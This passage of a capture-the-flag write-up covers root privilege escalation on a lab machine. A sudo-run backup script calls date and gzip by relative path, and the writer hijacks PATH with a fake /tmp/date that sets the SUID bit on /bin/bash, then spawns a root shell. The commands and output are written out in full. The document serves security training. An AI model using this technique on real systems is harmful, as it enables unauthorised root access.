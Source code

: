 The script calls two binaries with relative PATH and since the env is not reset this leaves us enough space to inject into the PATH with our own custom version of `date` or `gzip`.

`/opt/scripts/access_backup.sh`
```
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

To do this we create our own custom version of `date` first in the `/tmp` folder.

`/tmp/date`
```bash
#!/bin/bash

chmod +s /bin/bash
```

We mark it as executable and adjust the PATH so our `date` gets called first. With everything set we can now run the script with sudo.

```
m4lwhere@previse:~$ chmod +x /tmp/date
m4lwhere@previse:~$ export PATH=/tmp:$PATH
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
```

After running the script we can confirm bash has the suid bit set.

```
m4lwhere@previse:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

This let's us drop quickly into a root shell and add the root flag to our collection.

```
m4lwhere@previse:~$ bash -p
bash-4.4# id
uid=1000(m4lwhere) gid=1000(m4lwhere) euid=0(root) egid=0(root) groups=0(root),1000(m4lwhere)
```

```
bash-4.4# wc -c /root/root.txt
33 /root/root.txt
```
